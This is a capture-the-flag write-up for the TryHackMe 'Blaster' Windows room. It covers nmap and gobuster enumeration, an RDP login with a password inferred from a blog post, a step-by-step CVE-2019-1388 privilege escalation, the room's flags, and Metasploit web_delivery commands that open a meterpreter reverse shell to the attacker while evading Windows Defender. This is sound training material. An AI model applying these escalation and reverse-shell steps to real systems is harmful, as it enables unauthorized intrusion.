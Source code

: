 ```yaml
---
date: 2024-10-08
title: Blaster THM Write-Up
machine_ip: 10.10.244.151
os: Windows
difficulty: Easy
my_rating: 4
tags:
  - Windows
  - PrivEsc
  - CVE-2019-1388
  - nmap
  - gobuster
  - IIS
  - RDP
  - metasploit
  - msfconsole
  - Evasion
references: "[[📚CTF Box Writeups]]"
---
```

 - [Zero Day Initiative CVE-2019-1388](https://www.youtube.com/watch?v=3BQKpPNlTSo)
 - [Rapid7 CVE-2019-1388](https://www.rapid7.com/db/vulnerabilities/msft-cve-2019-1388)

This is a THM box/room called [Blaster](https://tryhackme.com/r/room/blaster)

---
# Enumeration

- Nmap
```
┌──(root㉿kali)-[~/Downloads]
└─# nmap -sVC -Pn -p- 10.10.244.151
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 13:54 PDT
Nmap scan report for 10.10.244.151
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-10-08T21:01:37+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-10-08T21:01:32+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2024-10-07T20:53:44
|_Not valid after:  2025-04-08T20:53:44
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 411.98 seconds
                                                                
```

- Gobuster
```
┌──(root㉿kali)-[~/Downloads]
└─# gobuster dir -u  http://10.10.244.151 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.151
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 150] [--> http://10.10.244.151/retro/]

```

## Initial Foothold

- At the webpage `http://10.10.244.151/retro` we find posts written by `Wade` (potential username?)
	- On the webpage, we find a Ready Player One post and find a few hints
		- "I keep mistyping the name of his avatar whenever I log in but I think I’ll eventually get it down. Either way, I’m really excited to see this movie! "
		- "Leaving myself a note here just in case I forget how to spell it: parzival"
		- We can infer his login may be `Wade:parzival`

- SUCCESS - we can login as `Wade` with the password `parzival` using RDP

## PrivEsc

- Using CVE-2019-1388, we can elevate privileges using a vulnerability existing in the Windows Certificate Dialog as it does not properly enforce user privileges, aka 'Windows Certificate Dialog Elevation of Privilege Vulnerability'. 
- [Steps](https://github.com/nobodyatall648/CVE-2019-1388):
	1) find a program that can trigger the UAC prompt screen
		1) `hhpud.exe`
	2) select "Show more details"
	3) select "Show information about the publisher's certificate"
	4) click on the "Issued by" URL link it will prompt a browser interface.
	5) wait for the site to be fully loaded & select "save as" to prompt a explorer window for "save as".
	6) on the File Explorer window address path, enter the `cmd.exe` full path:
	`C:\WINDOWS\system32\cmd.exe` then `Enter`
	7) now you'll have an escalated privileges command prompt. 

- User flag - Wade
```
THM{HACK_PLAYER_ONE}
```

- Root flag
```
THM{COIN_OPERATED_EXPLOITATION}
```

## Gain RevShell using Metasploit and bypass AV:

- Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery!
- For this, we'll be using the script web delivery exploit within Metasploit.
	- `use exploit/multi/script/web_delivery`
	- `set target 2`
	- `set lhost tun0`
	- `set lport 443`
	-  `set payload windows/meterpreter/reverse_http`
	- `run -j
- Now, return to the terminal we spawned with our exploit.
	- In this terminal, paste the command output by Metasploit after the job was launched.
	- In this case, I've found it particularly helpful to host a simple python web server (`python3 -m http.server`) and host the command in a text file as copy and paste between the machines won't always work.
	- Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 
